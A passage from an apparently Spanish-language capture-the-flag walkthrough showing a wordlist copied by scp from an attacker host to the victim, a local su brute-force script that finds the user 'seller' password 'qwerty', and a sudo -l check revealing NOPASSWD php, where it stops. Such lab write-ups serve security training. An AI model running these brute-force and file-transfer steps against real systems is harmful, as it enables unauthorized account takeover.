 Estando un rato buscando, vamos a probar a realizar fuerza bruta contra el usuario `seller`, pero de forma interna con el siguiente script:

URL = [Script suBruteforce.sh](https://github.com/D1se0/suBruteforce/blob/main/suBruteforceBash/suBruteforce.sh)

Y nos tendremos que pasar el `rockyou.txt` mediante `ssh` de la siguiente forma:

> Host

```shell
python3 -m http.server 80
```

> Maquina victima

```shell
scp kali@<IP_ATTACKER>:/<PATH>/rockyou.txt /tmp
```

Info:

```
kali@192.168.60.131's password:
rockyou.txt                                                                                                                                                                    100%  133MB 312.4MB/s   00:00
```

Con esto ya nos habremos importado el archivo para el diccionario.

Ahora ejecutamos lo siguiente:

```shell
bash suBruteforce.sh seller rockyou.txt
```

Info:

```
[+] Contraseña encontrada para el usuario seller:qwerty
```

Por lo que vemos hemos descubierto la contraseña de dicho usuario, por lo que nos cambiaremos a el.

```shell
su seller
```

Metemos como contraseña `qwerty` y veremos que seremos dicho usuario.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for seller on fdcdb8cfa364:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User seller may run the following commands on fdcdb8cfa364:
    (ALL) NOPASSWD: /usr/bin/php
```
